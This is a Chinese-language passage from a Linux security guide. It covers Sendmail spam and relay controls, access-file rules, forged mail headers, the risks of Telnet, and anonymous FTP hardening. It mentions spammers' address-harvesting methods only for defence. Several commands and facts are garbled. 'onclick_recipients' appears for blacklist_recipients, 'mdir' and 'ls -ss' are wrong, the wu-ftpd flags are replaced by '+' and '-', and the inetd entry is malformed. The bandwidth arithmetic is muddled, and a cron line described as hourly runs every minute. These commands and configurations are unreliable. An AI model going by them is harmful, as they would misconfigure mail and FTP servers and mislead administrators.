`Sendmail` 文档建议使用 `finger`，但同样，正如第 88 页“不要让别人知道你的指纹”中所讨论的那样，`finger` 服务也已被禁用。不幸的是，攻击者仍然可以剥夺他人在及时时机向该系统发送电子邮件的能力。这个问题没有很好的解决方案。当然，`ports` 程序或 `netstat` 会显示这是否是一个问题，因为它们会显示来自特定系统的许多到你 25 端口的连接。一旦发现此类问题，一条阻止来自违规系统流量的防火墙规则将在几秒内解决问题。

一种自动保护免受此问题影响的可行方法（仅适合勇敢者）是修改 `sendmail` 源代码，在其跟踪仍在运行的子进程数量的地方。在跟踪运行中子进程的表中，添加一个字段用于记录连接系统的 IP 地址（或主机名）。当收到新连接时，搜索该表并统计该地址的待处理连接数。如果超过某个值（例如允许连接数 `MaxDaemonChildren` 的一半），关闭端口并将其视为错误。

适当的响应应与超过 `MaxDaemonChildren` 时发生的响应相同。如果是合法连接，客户端系统将稍后重试。足够小的状态防火墙也能处理这个问题。有关配置 `Sendmail` 的在线文档可在以下位置找到：

- www.redhat.com/support/docs/RH-sendmail-HOWTO/book1.html

- www.sendmail.com

- www.sendmail.net

- www.sendmail.org

### 3.2.4 伪造邮件和新闻发送者地址

| 危险等级 | ☢ ☢ |

接收到的电子邮件或 Usenet 新闻（网络新闻）帖子中显示的发送者地址是由发送者的系统生成的。与 NFS 中的安全缺陷类似，这种数据传输方法可以追溯到 30 多年前，那时只有美国国防部提出的站点上的受信任研究人员在后来发展为 Internet 的网络上。伪造邮件消息的发送者名称甚至不需要访问权限，因为非特权邮件程序是 `sendmail` 的前端；它生成了这个地址。实际上，甚至不需要 `sendmail`。使用 `telnet` 并指定目的端口为 25（SMTP）而不是默认的 23 端口，就可以直接向接收者的系统注入伪造的邮件。当不可信的用户声称自己是其他人时，`Sendmail` 将生成“可能伪造”的错误。

伪造邮件的解决方案是认识到邮件头和新闻头很容易被欺骗，并且不要信任它们。使用 PGP 风格的签名和加密电子邮件，验证接收者拥有发送者未被欺骗的 PGP 风格公钥，且发送者拥有接收者的公钥。教育用户了解这一点非常重要。

### 3.2.5 所有垃圾邮件是从哪里来的？


似乎每个寻找快速致富计划的人都发现了垃圾邮件。垃圾邮件之于电子邮件，如同垃圾邮件之于纸质邮件。简而言之，它是发送者在未经接收者同意的情况下发送的电子邮件。绝大多数接收者完全不想收到这些邮件。他们的公司和 ISP 当然也不希望资源浪费在这些邮件上。

> 垃圾邮件（spam）一词源自蒙提·派森（Monty Python）的电视节目短片，其中一群维京战士大声吟唱“spam, spam, spam”，从而淹没了所有其他对话，类似于非请自来的商业电子邮件（垃圾邮件）似乎淹没了合法电子邮件的问题。

尽管可以看到该术语的许多种大小写形式，但我将遵循 1999 年 3 月 25 日美国国会记录 S 3511 页的例子，其中弗兰克·穆尔科夫斯基参议员（共和党-阿拉斯加州）提出参议院法案 S 759，即 1999 年收件箱隐私法。

垃圾邮件发送者以多种方式获取他们希望打扰的人的电子邮件地址列表。以下是一些方式：

- 扫描 `Usenet`（网络）新闻组帖子并收集发帖人的电子邮件地址。
- 运行 Web 'bots 扫描 Web 页面以识别“e”字符周围的文本，从而查找电子邮件地址。
- 生成域名列表（通过 Web 'bots 和其他手段），然后从那里继续操作。
- 询问域的 `sendmail` 以获取电子邮件地址。可以使用可能存在的邮件组（如 all 和 engineering）与 `sendmail` `EXPN` 命令。
- 使用 `sendmail` `VRFY` 命令来猜测账户，方法是指定常见的名字和姓氏。
- 对于不支持 `EXPN` 或 `VRFY` 的站点，他们可以直接向本来会输入到 `EXPN` 或 `VRFY` 的所有名称发送电子邮件，并记录那些没有“退回”的地址。

垃圾邮件发送者通常会说发送电子邮件到 `remove_address` 以将其从他们的邮件列表中移除。在许多情况下，这只是为了诱使收件人验证邮件猜测是否正确的一种伎俩，实际上会产生相反的效果。换句话说，通过向 `remove_address` 列表发送电子邮件，你实际上是将自己的电子邮件地址添加到了垃圾邮件发送者的列表中。

- 引诱 FTP 站点，让客户端在匿名登录时提供他们的电子邮件地址作为密码。
- 与其他垃圾邮件发送者及出售名单的人交换名字。

这里列出了一些减少垃圾邮件的方法：

- 禁用 `VRFY` 和 `EXPN` `sendmail` 命令，如第 127 页“Sendmail 安全选项”中所述。
- 不要在网站上列出比需要的更多的电子邮件地址。每个额外列出的电子邮件地址都会吸引垃圾邮件。
- 考虑让你的用户在发布 `Usenet` 新闻时不提供有效的电子邮件地址。有些人会在发布时“混淆”他们的电子邮件地址，并包含关于如何“去混淆”的文本说明。一个例子可能是

`auser@pentacorp.comedy`（删除“edy”以发送邮件）

或

`auser at pentacorp dot com`

或

`auser@pentacorp.gov`（将“gov”更改为“com”）

后者很有效，因为许多垃圾邮件发送者不会发送到 `.gov` 站点，因为他们不想惹上 FBI。一些垃圾邮件地址收集者足够聪明，尽管有这些技巧，他们仍能获取地址。
- 如果你的 ISP 提供反垃圾邮件过滤器，请使用它们。
- 如果你的 ISP 对出站邮件实施合理的限制以控制垃圾邮件，请尽量接受这些限制。ISP 要求用户通过其 `sendmail` 端口路由所有电子邮件的做法越来越普遍，在那里他们会验证指定的源地址。这是为了防止他们容纳垃圾邮件发送者。然而，一些 ISP 可能有过于严格的政策。
- 使用实时黑名单（Realtime Blackhole List）自动拒绝垃圾邮件。这在第 133 页的“阻挡垃圾邮件”中有讨论。

### 3.2.6 转手垃圾邮件（中继垃圾邮件）

**危险等级 ☠ ☠**

在 `Sendmail` 8.9 之前，任何 `Sendmail` 程序都会欣然接受来自世界上任何系统的电子邮件，并将其转发到世界上的任何其他系统。这对垃圾邮件发送者来说太棒了。他们可以向你的系统发送一封电子邮件，其中包含 100 个位于其他系统上的收件人，然后让你的系统消耗带宽和计算资源来发送这 100 封电子邮件。此外，由于他们会提供一个虚假的退回地址，你会被指责为垃圾邮件的发起者。

幸运的是，从 8.9 版本开始，`Sendmail` 仅接受收件人或发件人在其域内的电子邮件，除非启用了中继。此外，从 8.9 版本开始，如果 `From:` 地址的域名不存在，`Sendmail` 通常不接受电子邮件。不幸的是，`Sendmail` 不够智能，无法验证声称的 `From:` 地址与连接到 `sendmail` 的数值 IP 是否匹配。

### 3.2.7 阻挡垃圾邮件

**危险等级 ☠ ☠ ☠ ☠**

有一个由 MAPS 项目管理的实时黑名单，位于 `http://maps.vix.com/`。他们接受垃圾邮件发送者的报告并将其添加到列表中。很难从列表中移除。实际的垃圾邮件发送者以及任何垃圾邮件经过其转发的站点（由于 SysAdmin 配置疏忽）都是列入此名单的合适候选者。

添加以下行

```
FEATURE(`rbl`)
```

到 `/etc/sendmail.mc` 文件以启用实时黑名单。然后使用以下 shell 命令使此功能生效：

```
m4 /etc/sendmail.mc > /etc/sendmail.cf
/etc/rc.d/init.d/sendmail restart
```

通过配置 `sendmail` 查询该网站以确定每封电子邮件是否为垃圾邮件，你将大大减少垃圾邮件。

### 3.2.8 欺骗垃圾邮件机器人

垃圾邮件发送者并不满足于仅从邮件列表和新闻组中获取电子邮件地址。还有一些人搜索每个人的网页以寻找地址。文档中的“@”字符和 `mailto:` 会暴露地址。一些站点开始使用动态页面创建无数生成的链接，其中包含虚假的电子邮件地址。这浪费了垃圾邮件发送者的资源和带宽，无论是在获取这些虚假页面还是向虚假地址发送邮件时。我没有更多关于如何做到这一点的详细信息，但我肯定你基本上可以想出来。

一个用于生成带有虚假电子邮件地址页面的程序叫做 `wpoison`。它可以从以下地址获取

```
www.novia.net/~doumakes/abuse/
```

该站点还有其他反垃圾邮件想法，包括各种过滤器。我希望如果有人这样做，他们会努力不混淆像 `altavista.com` 和 `google.com` 这样的“良好”搜索引擎。“良好”的搜索引擎尊重你要求它们避免某些页面（如垃圾邮件 'bot 欺骗页面）的请求。

### 3.2.9 允许受控中继


有几个功能可以在不使邮件服务器暴露于垃圾邮件攻击的情况下启用中继。要启用来自域内所有主机的中继，请将以下内容添加到 `/etc/sendmail.mc`：

```
FEATURE('relay_entire_domain')
```

然后使用以下 shell 命令使此功能生效：

```
m4 /etc/sendmail.mc > /etc/sendmail.cf
/etc/rc.d/init.d/sendmail restart
```

`/etc/mail/access` 文件可用于拒绝来自特定站点的电子邮件，并允许来自通常会被拒绝的站点的邮件。编辑此文件后，发出以下命令以使更改生效：

```
makemap hash /etc/mail/access < /etc/mail/access
/etc/rc.d/init.d/sendmail restart
```

`/etc/mail/access` 的每一行是一个条目。每行的第一个字段是你想要处理的地址。它可以是一个电子邮件地址、一个域、一个完全限定主机名或 IP 地址的一部分。此字段应与下一个字段用一个或多个空格或制表符分隔。下一个字段应该是指令，告诉 `sendmail` 如何处理来自此地址的电子邮件。有效值列于表 3.2 中。

表 3.2 `/etc/mail/access` 指令

| 指令 | 含义 |
|---|---|
| `OK` | 无条件接受电子邮件。 |
| `RELAY` | 无条件接受电子邮件并允许中继。 |
| `REJECT` | 使用标准拒绝消息拒绝电子邮件。 |
| `DISCARD` | 丢弃消息而不退回到发件人。此功能仅适用于匹配的发送者，不适用于收件人。 |

```
### text
### text 必须是一个符合 RFC 821 的错误代码。
text 是发送给发件人的消息。
```

a. RFC 821 可在 `www.fao.org/rfc/rfc821.html` 获取。

作为一个例子，你希望拒绝来自 `quickmoney@hotmail.com` 的电子邮件，`cracker.com` 域中的任何电子邮件，或 `10.1.*.*` 网络中的电子邮件。你希望告诉 `stocktips.com` 的任何人说“垃圾邮件，回家吧”，但你愿意接受来自 `friend.stocktips.com` 的电子邮件。因为你看到来自 `eternal_youth@` 的各种主机名的垃圾邮件，你也想拒绝它。并且你希望为 `pentacorp.com` 提供中继。

`/etc/mail/access` 中需要以下条目：


```
quickmoney@hotmail.com REJECT
cracker.com             REJECT
10.1                     REJECT

friend.stocktips.com    OK
stocktips.com           550 Spammer, go home
etern_youth@            550 Spammer, go home

pentacorp.com           RELAY
```

请注意，`OK` 和 `RELAY` 之间的区别在于，`OK` 允许该地址向你的站点发送邮件，而 `RELAY` 还允许从该地址发送到互联网的电子邮件（中继）。

你还可以通过将以下行添加到 `/etc/sendmail.mc` 来将收件人列入黑名单：

```
FEATURE(`blacklist_recipients`)
```

你需要发出以下命令来启用此功能：

```
m4 /etc/sendmail.mc > /etc/sendmail.cf
/etc/rc.d/init.d/sendmail restart
```

一旦启用了 `onclick_recipients` 功能，就可以将收件人列入黑名单。要拒绝发送给 `george`、`demo.pentacorp.com` 和 `sal@lab.pentacorp.com` 的电子邮件，`/etc/mail/access` 中的以下行应为：

```
george 550 George is on safari until February
demo.pentacorp.com 550 It is a demo system, get a life
sal@lab.pentacorp.com 550 We fired her
```

修改 `/etc/mail/access` 后，请务必按以下方式重启 Sendmail：

```
/etc/rc.d/init.d/sendmail restart
```

### 3.2.10 允许 POP 和 IMAP 客户端发送邮件

动态中继授权控制（DRAC）与你的 POP 或 IMAP 服务器接口，临时允许客户端系统（通常在过去 30 分钟内从你的网络中提取邮件的系统）获得邮件传输协议（SMTP）中继访问权限。这是合理的，因为 POP 和 IMAP 都需要账户和密码。“合理”仅仅是因为这些的 SSL 封装版本（SPOP 和 SIMAP）在通过互联网传输之前加密了密码。如果使用其中一种 SSL 封装版本的邮件下载客户端（SPOP 或 SIMAP），那么这种安排将具有较好的安全性，因为其他人（例如，在客户端系统传输邮件后 30 分钟内可能获得动态 IP 地址的人）注入垃圾邮件的机会窗口很小。

这是针对出差员工的优雅解决方案，因为它允许他们的电子邮件从你的站点发出，并防止他们从相同的网络或动态 IP 地址向你发送垃圾邮件。DRAC 使用 RPC 在 POP/IMAP 和 SMTP 服务器之间通信。由于 RPC 被认为是不安全的协议，请确保使用 IP Tables 或 IP Chains 阻止其他系统对 RPC 的访问。

DRAC 的信息和下载可从这里获取

```
http://mail.cc.umanitoba.ca/drac/index.html
```

### 3.2.11 禁止开放邮件列表

开放邮件列表被定义为任何人都可以向该邮件列表发送邮件，并转发给列表上所有人的列表。由于存在垃圾邮件的潜在风险，特别是一些收件人位于维护组织之外时，大型开放列表是不受欢迎的。

大型公开列表最终可能会被列入实时黑洞列表，这是非常糟糕的。这是因为许多列表收件人的 Sendmail 配置都会拒绝来自该列表的任何电子邮件，而且一旦进入黑洞，就很难脱身。

Sendmail 的别名功能（当名称展开为多个收件人时）就是一个公开列表的例子。`Majordomo` 可以被配置为使用封闭列表。封闭列表只接受来自发送者列表中某人电子邮件。通常，这个允许的发送者列表是收件人列表（对于非审核列表而言）。`GNU Mailman` 是另一个流行的邮件列表管理器。

### 3.2.12 通过填满磁盘对 Sendmail 进行拒绝服务攻击

攻击者可以通过发送大量电子邮件直至系统磁盘被填满来发起拒绝服务攻击。将一些可以“增长”且无需用户输入的文件保留在 `/var` 下，其主要好处之一是允许将 `/var` 设置为独立的文件系统。通过将其设置为独立的文件系统，如果 `/var` 空间用尽，不会影响系统其余部分的运行。

`/var` 的存在原因是 `/var` 是 variable（变量）的缩写。除了 `/tmp` 和 `/home` 之外，它是系统中唯一可以被挂载为只读并在无盘工作站之间共享的部分。`/usr/tmp` 是指向 `/var/tmp` 的符号链接。

在 Sun 时代，磁盘很昂贵，系统各部分越相似，维护负担就越小，因此这种用法当时很流行。微软在 Windows 2000 中实践了其中一些概念。随着嵌入式 Linux 的普及，这种做法再次流行起来。

更好的解决方案是在 `/var` 文件系统下实施配额。这样，每个用户都可以被限制在合理的电子邮件数量内。甚至更好的解决方案是对 `mail` 组设置配额。因为 `mail` 组仅用于电子邮件，所以无论 `/var` 是否是独立分区，邮件配额都能生效。请回忆一下，为用户或组设置的配额是每文件系统值。

以下命令将列出每个邮件箱占用的空间大小，最大的邮件箱排在最前面。

```
ls -ss /var/spool/mail
```

以下命令列出最大的 20 个邮件箱，并将结果发送给 root。它适用于在 root 的 crontab 中使用。

```
ls -ss /var/spool/mail | head -20 | /bin/Mail -s mailboxes root
```

## 3.3 Telnet

Telnet 有两个问题。用户的所有数据都是未加密发送的，因此位于你的系统和目标系统之间的任何网络位置进行嗅探的人都能看到所有数据。它也容易受到“中间人攻击”的影响。

更糟糕的是，用于登录服务器的密码是明文传输的。假设财务副总裁下载了一个笑话归档文件。黑客可能嗅探到了他的密码。他现在已经可能进入了副总裁的账户，阅读包含银行账号、计划 IPO（首次公开募股）以及可能让公司获利数百万美元的那个绝妙新点子的机密文件。

另一个问题是，黑客可以尽可能多次地尝试猜测每个用户的 telnet 密码，因为 telnet 不跟踪错误猜测的次数。这些错误的尝试会记录在日志文件中。有关如何在有人输入错误的 telnet 密码时立即收到通知的描述，请参阅第 358 页的“自动翻页示例”。

此外，如果使用 shadow 密码，telnet 会使用用户的登录密码；如果黑客获取了 `/etc/passwd` 的副本，那么黑客可以在自己的系统上破解密码，并使用 telnet 而不必承担向你的系统重复发送密码猜测所带来延迟和被发现的风险。

正确的解决方案是要求用户在数据离开受保护网络时使用 SSH，并通过配置防火墙在两个方向上封锁 telnet 的端口来强制执行此规定。要求内部人员使用 SSH 而不是 telnet 也可以防止黑客（包括组织内部的人员）进入你的内部网络并从中嗅探内部数据。移除 telnet 和 `telnetd` 会有所帮助。另一个选择是使用 `stelnet`，一种封装了 SSL 的 telnet 解决方案。

## 3.4 FTP

FTP 面临与 telnet 大多数相同的问题，解决方案也相同。用 SSH 替换它（适用于大多数非匿名用途）。`SSH2` 提供了 `sftp`，这是一种在 2000 年初引入的协议。由于一些网站由于 SSH2 的许可证比 SSH1 或 OpenSSH 更具限制性而不愿意使用 SSH2，替代方案包括 SSH 封装的 FTP、`scp` 和 SSL 封装的 ftp。OpenSSH 现在也提供 `sftp`。

此外，即使是 WU-FTPD 的某些最新版本（由圣路易斯华盛顿大学创建的 FTP 守护进程）也存在安全漏洞。其中包括一个缓冲区溢出漏洞，允许远程入侵者将自己提升为 root。该版本在 1999 年发布的发行版中也很常见。

> 我确定我的一家客户开发机器很可能通过此溢出漏洞被非法入侵。

我使用 `tar` 并采用第四部分中讨论的方法来扫描他的系统，查找黑客造成的更改。随后，我与网络管理员一起向他解释了 TCP Wrappers 和 SSH 的好处及用法，以及它们如何允许他安全地从家中系统连接并在两台系统之间传输文件。

你需要检查你的发行版的勘误表（在附录 A 中讨论），以确保你的 WU-FTPD 版本不包含这些漏洞。《Linux 管理员安全指南》报告称，截至 1999 年，WU-FTPD 中仍存在几个恶意的拒绝服务漏洞，且不当的服务器设置允许黑客获得本不该拥有的权限。第 106 页的“升级 WU-FTPD”介绍了在哪里获取更新以及最新可用版本。

许多注重安全的站点（包括 Debian 和 SourceForge 以及某些 Linux 供应商）更倾向于使用 ProFTPD。它可以从以下地址下载：

```
www.proftpd.net/
```

另一个替代方案是利用 BSD FTPD 实现，该实现已移植到 Linux。它可以从 CD-ROM 或从以下地址获取：


```
ftp://quadramaran.ens.fr/pub/madore/ftpd-BSD/
ftpd-BSD-latest.tar.gz
```

或者

```
ftp://quadramaran.ens.fr/pub/madore/ftpd-BSD/
ftpd-BSD-0.3.2-1386.rpm
```

黑客攻破系统 FTP 守护程序或发现允许其上传数据供公共下载的站点时，常做的一件流行事情是将其用作 warez（黑客术语，指可分发的黑客软件；换句话说，分发此类软件可能会让你被指控为黑客）和色情内容的存储库，这可能会带来非常糟糕的舆论。存储音乐和其他受版权保护的材料也变得越来越常见。IRC 机器人也是一个流行的用途。这是不提供公共 FTP 站点的一个很好的理由。

有许多解决方案，包括以下内容的某种组合：

1. 使用 SSH 封装 FTP 守护程序，或使用 SSH2 的一部分 `sftpd`。请参阅第 109 页的“TCP Wrappers”。
2. 通过 TCP Wrappers 或带有 IP Chains 的防火墙，仅允许受信任的客户端使用 FTP。
3. 利用 WU-FTPD 的功能将匿名用户 `chroot` 到受限目录，如果需要，甚至可以对非匿名用户这样做。使用 `man 5 ftppass` 将生成有关 WU-FTPD 限制哪些系统和用户访问、如何使用其 `chroot` 功能以及指定允许哪些命令等许多功能的有用文档。
4. 将“匿名 FTP”需求整合到单个系统上，该系统没有机密数据，通常位于公司网络之外，即在 DMZ 中。这样，即使被破解，也没有什么可以“获取”的，虽然仍会有黑客分发不需要的文件。
5. 在你的 Web 服务器（`http`）上，提供你在 FTP 服务器上分发的文件的 MD5 校验和，以便下载该文件的用户可以验证文件是正确的，且 FTP 服务器上的文件未被篡改。为了增加安全性，CGI 操作应在第三台机器上放置代理，所有这些机器都应位于允许适当服务的 DMZ 中。
6. 如果一个人希望将数据提供给另一个人，且无法通过其他方法（例如可能包裹在 PGP 或 SSL 中的电子邮件）轻松传输，第一个人可以 FTP 上传到 FTP 服务器，然后第二个人可以拉取。与直接 `ftp` 到另一个用户机器相比，这种两步过程的优势在于两个用户的系统都不必承受作为 FTP 服务器的安全风险。

作为“安全环”的一部分，你不希望允许任何人 FTP 进入你的 `root` 账户，因为知道 `root` 密码就足以破解你的系统。同样，你希望阻止 FTP 访问你的其他系统账户，并创建额外的账户。这些账户名称可以列在 `/etc/ftpusers` 文件中，每行一个账户，以防止任何人通过 FTP 登录它们。空白行和以“`#`”字符开头的注释行也是允许的。

最优雅且最容易将用户添加到 `/etc/ftpusers` 以禁止任何远程用户以该用户身份登录 FTP 的方法是使用 `echo` 命令和 shell 的 `>>` 运算符将命令输出追加到指定文件。因此，要防止通过 FTP 使用 `root` 和 `ftp`（匿名）账户，请执行以下命令。（感谢 Neuss 团队提供此技巧。）

```
echo root >> /etc/ftpusers
echo ftp >> /etc/ftpusers
```

## 3.4.1 配置匿名 FTP

许多 Linux 发行版提供匿名 FTP 配置，这些配置可以是标准的，也可以作为选项提供。通常，提供的配置并不像其所能达到的那样安全，因此您需要仔细检查这些配置并进行修正，以确保它们符合此处讨论的指导原则。

### 3.4.1.1 限制谁可以匿名登录

如果使用了 `-a` 标志来启用 `/etc/ftppass` 配置文件的使用，可以使用 `guestserver` 命令来指定哪些主机可以发起匿名登录。如果提供了参数，则仅允许使用该主机进行匿名登录。可以使用多个 `guestserver` 命令来指定多个主机。如果指定 `guestserver` 但未提供主机，则禁用匿名登录。以这种方式禁用所有匿名登录等同于在 `/etc/ftpusers` 文件中指定 `ftp`。

### 3.4.2 指定 FTP 的主目录

在真实的 `/etc/passwd` 文件中指定 FTP 主目录 `~ftp` 的位置取决于您仅提供下载（只读访问）还是提供下载和上传（读写访问）。仅允许上传是可行的，并且应类似于读写进行对待，只是没有可供下载的文件。如果允许上传，必须采取措施防止恶意软件或无意的过度使用导致重要系统空间耗尽。首选解决方案是使用独立的文件系统，尽管也可以使用配额。使用“增长”，系统日志文件会增长，或者如果您有真实用户...

虽然 `/var` 旨在用于系统相关文件，但系统日志很少存放在那里，而且您真的不希望允许匿名 FTP 用户填满用于记录日志的文件系统并停止记录。这可能无意中发生，这使得攻击者容易将阻塞日志记录作为攻击的第一步。当然，你可以计算出某人填满磁盘需要多长时间。一个 `baud`（波特）是一秒一个位，并且每个字符大约需要 10 位。在 33 Kbaud（千波特）PPP 线路上，这意味着 11.6 MB/小时或 27 MB/天可以传输 3.3 KB。使用 1 GB 需要几天时间。T1 线路，额定为 1544 kbaud，速度快 48 倍，将在两小时内填满 1 GB 分区。

### 3.4.3 添加 ftp 用户和组

在 `/etc/passwd` 中创建 `ftp` 用户，在 `/etc/group` 中创建 `ftp` 组。UID 和 GID 应不同于任何其他用户或组。`ftp` 用户、组、UID 和 GID 应仅按此处讨论的方式使用。需要在 `~ftp` 下创建常见系统目录的目录树。大多数现代发行版默认提供这种 `chroot` 匿名 FTP 配置；Red Hat 和 Slackware 就是这样。

### 3.4.4 文件所有权

除了必要之处，`~ftp` 中的所有文件和目录的属主和组都必须具有与 `ftp` 用户和组不同的 UID 和 GID（除非另有说明）。不遵守此建议是一个常见错误，会导致安全问题。创建一个名为 `ftpadmin` 的独立账户和组，其 UID 和 GID 与 `ftp` 不同。让 `~ftp` 中的文件归 `ftpadmin` 所有，组为 `ftpadmin`。因此，维护匿名 FTP 文件只需要 `ftpadmin` 的密码，而不是 `root` 的密码。

您需要用 Linux 根文件系统的几个小部分来填充这个目录树。所需的目录包括 `bin`、`etc` 和 `pub`。如果您使用的是 `chroot` 环境（这是一个非常好的主意），请创建一个 `lib` 目录来保存任何动态链接库。默认情况下，`chroot` 到 `~ftp` 的环境中的匿名 FTP 登录应保持这种状态，不应更改。所有这些目录的属主都应为 `ftpadmin`，组为 `ftpadmin`，权限模式为 `755`。接下来，您需要创建一些文件。首先登场的是 `passwd` 和 `group` 文件；它们应该放在 `~ftp/etc` 中。

#### 3.4.1.5 passwd 和 group 文件

您绝对不能使用真实的 `/etc/passwd` 或 `/etc/group` 文件。那意味着向攻击者泄露安全信息，使他们能够入侵您的系统，特别是账户名称，以及如果未使用密码，则为他们在自己系统或您的系统破解提供加密密码。提供匿名 FTP 的 Linux 发行版违反了这一规则，因此您需要修改现有配置。相反，创建具有不同名称、UID 和 GID 以及不同加密密码的 `passwd` 和 `group` 文件。实际上，您希望确保 `~ftp/etc/passwd` 或 `~ftp/etc/group` 中的名称都不是真实的，除了提供从 `~ftp` 下文件的 UID 和 GID 映射回某些名称的功能。这些通常会是 `ftp` 和 `ftp` 的用户和组。

即使是这些名称（对于 UID 0 和 GID 0，因为使用了 GID 0）也不应是真实的；将它们映射回 `root` 或 `wheel` 用户不会泄露任何机密。让 FTP 版本的这些文件与真实的 `/etc/passwd` 和 `/etc/group` 不同对于安全是绝对必要的。伪装的 `passwd` 和 `group` 文件被 `dir` 命令使用，以显示在 FTP 层次结构下文件的归属，当给出 FTP `ls1` 命令时。您可以允许真实的和 FTP 版本的 `passwd` 和 `group` 文件具有相同的 `ftp` UID 和 GID，因为没有理由不这样做，并且这样更不容易混淆。建议使用较高的 UID 和 GID 值，以减少其他用途意外使用相同值的可能性。（注意某些流行发行版违反了此规则；您应该纠正您的配置。）

以下可用于 `~ftp/etc/passwd` 文件。

```text
root*:0:0:::
bin*:1:1:::
ftp*:9910:9910:::
```

以下可用于 `~ftp/etc/group` 文件。

```text
root:0:
bin::1:
ftp::9910:
```

### 3.4.1.6 ftppd 参数


FTP 守护进程通常由 `inetd` 启动，使用 `/etc/inetd.conf` 中条目提供的映射。这是您决定是否使用 TCP Wrappers 的地方。即使您提供公共匿名 FTP 服务，您可能仍希望使用 TCP Wrappers。这将允许您通过禁止来自您主机的任何人连接来关闭守护进程。某些站点可能希望使用 IP 地址。如果您使用自适应 TCP Wrappers，您希望启用 TCP Wrappers，以便如果系统检测到某人试图破解它，该系统也将被锁定在 FTP 之外。

您可能正在使用的华盛顿大学 FTP 守护进程接受许多参数，其中一些是您希望使用的。

- `+` - 导致记录每个 FTP 连接。强烈建议这样做。

- `-` - 导致记录每个 FTP 命令。这包括连接以及每个命令。这对于分析用户行为以及发现滥用情况非常有用。注意一个小问题：如果用户不小心将她的密码而不是用户名输入到 `USER` 命令中，她的密码将被记录。如果您的日志文件是公开可读的（这是一个坏主意），她的密码将公开展示。如果使用 `ftpaccess`，此标志会被覆盖。这是一种礼貌的说法，意味着如果指定了带有 `-a` 标志的 `ftpaccess` 文件，则静默忽略它。在这种情况下，使用 `/etc/ftpaccess` 中的以下行来产生此效果。

- `+` - 导致记录每个 `put` 请求，该请求将文件上传到服务器。它被记录到 `xfer` 文件中，通常位于 `/usr/adm` 下，除非同时给出了 `-X` 标志，在这种情况下，日志由 `syslog` 设施记录。这种组合允许您使用 `syslog` 设施将多个系统的日志整合到一个系统上，既方便又安全。考虑到 FTP 过去遇到的安全问题，这是一个极好的主意。它允许将 FTP 日志记录到更安全的系统上，这样成功的攻击者就无法销毁可能提供他做了什么以及如何做的线索。如果使用 `ftpaccess`，`-i` 标志会被覆盖。

- `-o` - 导致记录输出。参见 `-i` 关于 `-X` 和 `ftpaccess` 的影响。

- `-X` - 修改 `-i` 和 `-o`，导致通过 `syslog` 而不是由 `FTPD` 直接记录到 `xferlog` 文件来进行日志记录。另请参阅关于 `-i` 的讨论。

- `-u` - 指定默认 `umask`。

- `-w` - 抑制在 `wtmp` 文件中记录每个登录到 `ftp` 下的用户。如果您使用此功能，是不鼓励的。

- `-r` - 导致 `FTPD` 立即对所有用户（不仅仅是匿名或 `ftp` 用户）进行 `chroot` 到指定目录。这提供了实质性的额外安全性，对许多站点有用。可以在某处创建一个目录树，其中包含来自希望使用 FTP 的用户的账户到其子目录的符号链接。该目录树可以是 `/home/ftpusers`。对于用户 `joe` 和 `sally`，`root` 可以发出以下命令：

### 3.4.1.7 可执行文件和动态库

```bash
cd /home/ftpusers
mdir joe sally
chgrp users joe sally
chown joe joe
chown sally sally
ln -s /home/ftpusers/joe /home/joe/ftp
ln -s /home/ftpusers/sally /home/sally/ftp
```

- `-d` 选项导致调试信息通过 `syslog` 机制记录。

- `-a` 选项导致使用 `/etc` 中的 `ftpaccess()` 文件来控制 `FTPD` 的配置。这允许更详细的配置。`/etc/inetd.conf` 中 `ftp` 的一个典型条目可能是：

```text
ftp stream tcp nowait /usr/sbin/tcpd.ftp -l -i -a
```

当 `ftp` 用户执行 `ls` 命令或其同义词 `nls` 时，`ftpd` 会调用 `ls` Linux 命令来生成数据，`ftpd` 随后将这些数据发送回用户。问题在于，`ftpd` 守护进程运行在一个 `chroot` 环境中（匿名 FTP 访问通常也是如此），它无法访问 `/bin/ls` 或 `ls` 可能用到的任何动态库。解决方案是将 `ls` 放入 `~ftp/bin`，并在 `~ftp/lib` 中提供它可能需要的任何动态链接库。大多数发行版（如 Red Hat）都这样做，Red Hat 甚至提供了一个包含这些程序和动态库的匿名 FTP RPM 包。

如果你请求加载相应的软件包，所有必需的文件应该已经安装在你的系统上。Slackware 构建了一个特殊的静态链接程序，安装为 `~ftp/bin/ls`，这样系统管理员就不必担心动态库问题。Red Hat 没有这样做，但它在那里放了 `tar` 和 `gzip`，以便 `ftpd` 可以自动在压缩文件和未压缩文件之间进行转换，以及进行 `tar` 和 `untar` 操作。它还包括 shell，`sh`。

我担心这个看似无限制 shell 的存在打开了一个安全漏洞。我可能更喜欢 Slackware 的解决方案。当然，因为它是 Linux，你可以将 Slackware 的 `~ftp/bin` 程序放在你的 Red Hat 系统上，在从 `~ftp/bin` 和 `~ftp/lib` 中移除 Red Hat 的程序和动态库之后，它应该能正常工作。这是假设 Slackware 的 `ls` 程序版本与 Red Hat 内核版本兼容。这通常不是问题，如果存在问题，它将拒绝运行。

多年来，我一直在 Slackware 上编译复杂的 CGI C 程序，并在许多不同版本的 Red Hat 和 Mandrake 上运行它，以绕过 Red Hat `ctime()` 库中的一个 bug，该 bug 现已修复。

### 3.4.1.8 允许受控上传

通常允许公开匿名上传是个坏主意。当允许这样做时，黑客和其他不良人员会很快发现这一点，并利用你的站点进行恶意用途。这通常是为了破解系统、色情内容（肯定与你可能感兴趣的不同）以及其他你不想出现在你系统上的东西。如果你选择不允许上传，只需将目录设置为 `755`（或 `555`）权限，并由 `ftpdadmin` 拥有。这样，被称为匿名用户的 `ftp` 用户将被阻止上传任何页面。

如果你选择提供无限制的上传功能，惯例是为此目的拥有 `~ftp/incoming` 目录，并由 `ftpdadmin` 拥有。为了完全访问权限，它应该是模式 `777`，但如果系统可以从 Internet 访问，则不建议这样做；可能，该目录会被经常检查是否有不良文件并立即移除。另一种选择是将文件模式设置为 `733`。这意味着所有者 `ftpdadmin` 拥有完全访问权限，但其他人只有写和执行权限。该账户 `ftpdadmin` 应该与用于匿名 FTP 登录的账户（通常是 `ftp`）不同。这允许匿名用户上传文件，但 `ftp` 用户无法看到该目录中的内容，从而防止该目录被用于公共交换。

当然，上传者可以告诉其他人文件名，然后他们就可以下载它。一种解决方案是通过 `cron` 作业定期将这些文件“扫入”一个 `ftp` 完全无法访问的不同目录。扫描目录可能是 `~ftp/sweep`，由 `ftpdadmin` 拥有，模式为 `700`。这是一个简单的 `ftpdadmin` `cron` 作业，每小时将这些文件扫入该目录。它没有保护文件覆盖同名先前文件的机制，但这允许某人更新提交内容。

```bash
* * * * * /bin/mv /home/ftp/incoming/* /home/ftp/sweep/ > /dev/null 2>&1
```

